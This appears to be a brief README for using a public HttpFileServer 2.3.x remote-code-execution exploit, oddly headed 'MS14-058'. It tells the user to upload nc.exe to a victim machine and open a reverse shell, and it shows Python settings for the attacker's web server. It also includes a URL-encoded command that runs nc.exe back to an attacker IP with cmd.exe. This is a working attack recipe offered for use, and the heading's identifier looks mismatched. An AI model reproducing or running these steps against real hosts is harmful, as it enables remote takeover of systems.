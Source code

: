 # MS14-058 HttpFileServer 2.3.x RCE

source: [https://www.exploit-db.com/exploits/37064](https://www.exploit-db.com/exploits/37064)

Upload `nc.exe` into victim machine and performs a reverse shell using `nc.exe`

Edit python script for RCE

```python
    #change these to your webserver for uploading nc.exe
    ip_addr = "192.168.1.20" 
    local_port = "80" 
    #file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```

